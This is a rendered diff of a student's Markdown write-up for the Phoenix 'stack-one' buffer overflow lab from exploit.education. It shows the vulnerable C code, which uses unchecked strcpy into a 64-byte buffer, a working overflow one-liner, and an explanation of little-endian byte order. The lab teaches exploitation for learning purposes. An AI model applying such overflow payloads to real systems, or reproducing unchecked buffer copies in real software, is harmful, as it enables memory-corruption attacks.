

Before and after one commit to Anjalihere/CSOC_24, a Markdown page: Week_4 /binary_exploitation.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/Week_4 /binary_exploitation.md
+++ b/Week_4 /binary_exploitation.md
@@ -103,7 +110,7 @@ int main(int argc, char **argv) {
   locals.changeme = 0;
   strcpy(locals.buffer, argv[1]);
 
-  if (locals.changeme == 0x496c5962) {
+  if (locals.changeme ==  0x496c5962) {
     puts("Well done, you have successfully set changeme to the correct value");
   } else {
     printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
@@ -113,9 +120,13 @@ int main(int argc, char **argv) {
   exit(0);
 }
 ```
+ This challenge is same as previous one just that now, we need to set the `changeme` variable to `0x496c5962`.
 
-```console
-user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one $(python -c 'print "A"*64 + "\x62\x59\x6c\x49"')
-Welcome to phoenix/stack-one, brought to you by https://exploit.education
-Well done, you have successfully set changeme to the correct value
+
+To exploit the buffer overflow vulnerability, we need to input a string longer than the 64-character buffer. By filling the buffer with 64 characters and then appending specific bytes, we can set the changeme variable to the value 0x496c5962.
+
+However, we can't simply add the desired value after the 64 A's. Due to the little-endian architecture, data is stored in reverse order in memory. Therefore, we need to reverse the byte order of our target value to solve the challenge.
+
+```python
+ ./stack-one $(python -c 'print "A"*64 + "\x62\x59\x6c\x49"')
 ```
@@ -305,3 +358,4 @@ int main(int argc, char **argv) {
+Kudos! we finished this level too.
 
 # Stack-Five
 
````
Also changed, not shown: other parts of Week_4 /binary_exploitation.md (+67 -18 lines).
